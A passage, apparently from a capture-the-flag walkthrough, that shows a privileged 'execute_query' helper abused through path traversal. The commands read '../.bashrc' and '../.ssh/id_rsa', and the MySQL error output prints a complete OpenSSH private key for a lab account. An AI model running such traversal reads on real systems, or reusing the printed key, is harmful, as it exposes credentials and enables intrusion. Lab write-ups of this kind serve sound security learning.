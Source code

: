 ```
/opt/manage/execute_query 5 ../.bashrc
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
case $- in
    *i*)
--------------

ERROR 1064 (42000) at line 6: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'case $- in
    *i*)' at line 1
```

```
/opt/manage/execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
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
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```
